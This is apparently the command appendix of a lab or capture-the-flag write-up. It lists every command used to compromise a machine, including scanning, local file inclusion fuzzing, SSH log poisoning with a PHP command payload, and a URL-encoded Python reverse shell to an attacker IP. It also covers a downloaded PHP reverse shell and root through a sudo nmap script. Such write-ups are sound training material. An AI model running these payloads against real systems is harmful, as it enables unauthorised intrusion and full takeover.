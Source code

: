 ![Root flag](https://imgur.com/LGzTBnS.png)

# Appendix A: Commands Issued
```bash
# Enumeration
sudo nmap -sC -sV -oN tcp_ports.nmap -p- 192.168.54.80
gobuster dir -u http://192.168.54.80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html,txt -o directories.txt

# Fuzzing for LFI
ffuf -u 'http://192.168.54.80/console/file.php?FUZZ=/etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt  -fl 1
./lfi-fuzz.py /usr/share/wordlists/rfi-lfi-list.txt # my custom wordlist. You can build your own with information in the web

# Exploit
ssh '<?php system($_GET["cmd"]);?>'@192.168.113.80 # to poison ssh log files
curl 'http://192.168.113.80/console/file.php?file=/var/log/auth.log&cmd=id' -o - # validate exploit
nc -lvnp 1337
## On browser:
http://192.168.88.80/console/file.php?file=/var/log/auth.log&cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.49.189%22,1337));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27

# Initial Access
cd /var/www
cat local.txt

# Privilege Escalation
find /etc -type f -writable 2>/dev/null
nano /etc/apache2/apache2.conf # edit User and Group lines to contain User mahakal and Group mahakal
## On kali:
cp /usr/share/webshells/php/php-reverse-shell.php .
nano php-reverse-shell.php # edit ip and port (I used port 5555)
python3 -m http.server 80
nc -lvnp 5555
## On host:
wget http://192.168.49.189/php-reverse-shell.php
mv php-reverse-shell.php /var/www/html/revshell.php
/bin/systemctl restart apache2
## On kali:
curl http://192.168.189.80/revshell.php
## On host:
sudo -l
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

# Post-Exploitation
id
cd /root
cat proof.txt
ifconfig
```
